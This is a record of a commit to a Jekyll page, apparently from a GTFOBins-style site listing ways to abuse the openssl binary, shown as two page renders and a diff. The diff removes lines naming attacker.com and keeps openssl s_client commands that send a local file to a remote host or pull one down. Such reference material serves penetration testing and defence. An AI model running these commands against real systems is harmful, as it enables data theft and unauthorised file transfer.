

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/openssl.md, in a window 1280 px wide. Shown: the part 335-1080 px from the top of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 990 px from its top, so only the background shows below that.

Commit message:
Update openssl.md

```diff
--- a/_gtfoud/openssl.md
+++ b/_gtfoud/openssl.md
@@ -9,9 +9,6 @@ functions:
 
         Send a local file via TCP. Transmission will be encrypted.
       code: |
-        RHOST=attacker.com
-        RPORT=12345
-        LFILE=file_to_send
         openssl s_client -quiet -connect $RHOST:$RPORT < "$LFILE"
   file-download:
     - description: |
@@ -22,8 +19,5 @@ functions:
 
         Fetch a file from a TCP port, transmission will be encrypted.
       code: |
-        RHOST=attacker.com
-        RPORT=12345
-        LFILE=file_to_save
         openssl s_client -quiet -connect $RHOST:$RPORT > "$LFILE"
 ---
```
